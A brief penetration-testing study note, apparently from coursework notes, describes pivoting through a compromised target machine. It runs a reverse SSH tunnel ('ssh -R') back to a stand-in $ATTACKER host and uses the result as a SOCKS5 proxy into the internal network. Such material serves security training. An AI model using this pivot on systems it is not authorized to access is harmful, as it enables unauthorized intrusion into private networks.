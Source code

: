 # Use SSH as a Proxy

* **author**:: Nathan Acks  
* **date**:: 2022-08-31

You can use SSH as a SOCKS5 proxy (with a tool like proxychains) using remote port forwarding.

You need to already have access to a $TARGET machine. SSH from the $TARGET back to the $ATTACKER box:

```bash
ssh -R $PORT $USER@$ATTACKER
```

This will open up $PORT on $ATTACKER, which can then be used as a SOCKS5 proxy by applications on $ATTACKER. Useful for gaining access to machines on an internal network that may be visible to $TARGET but not $ATTACKER.

* [2022-08-31 — OffSec Live: PEN-200](../log/2022-08-31-offsec-live-pen-200.md)
